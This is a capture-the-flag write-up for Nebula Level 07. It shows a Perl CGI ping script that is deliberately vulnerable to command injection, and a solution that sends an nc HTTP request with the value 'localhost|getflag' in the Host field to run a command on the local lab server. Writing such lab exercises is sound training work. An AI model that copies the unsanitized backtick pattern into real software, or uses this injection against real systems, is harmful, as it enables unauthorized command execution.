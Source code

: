 # Nebula - Level 07

### About ###

>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.
>
>To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.

### Source code ###

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

### Solution ###

In the source code given, the variable host is directly concatenated without being sanitized first, thus allowing users to inject code into the ping command.

In `/home/flag07` the file `thttpd.conf` contains information about the web server executing the perl script `index.cgi`. This server runs on the same machine and on the port 7007.

`getflag` can be executed with `flag07`'s permissions by sending a simple HTTP request to that server with the `host` variable set to `localhost|getflag`.

```
level07@nebula:~$ printf "GET /index.cgi?Host=localhost%%7Cgetflag\r\nHost: localhost:7007\r\n\r\n" | nc localhost 7007Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account
</pre></body></html>
```
